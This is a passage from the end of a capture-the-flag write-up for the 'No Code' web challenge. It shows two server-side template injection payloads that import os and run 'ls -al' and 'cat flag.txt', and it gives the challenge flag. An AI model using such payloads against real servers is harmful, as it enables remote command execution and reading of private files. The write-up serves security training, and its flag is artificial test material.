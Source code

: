 To speed up the process, I used a [SSTI payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread) to run the command without restrictions

```python
__builtins__.__import__('os').popen('ls -al').read()
```

![flag.txt](Web/img/no-code-3.png)

Finally, I executed the `cat flag.txt` command to obtain the flag

```python
__builtins__.__import__('os').popen('cat flag.txt').read()
```

**Side notes:** I actually solved `No Code` challenge before the source code was published =))

`Flag: uoftctf{r3g3x_3p1c_f41L_XDDD}`

**Thanks for reading <33**
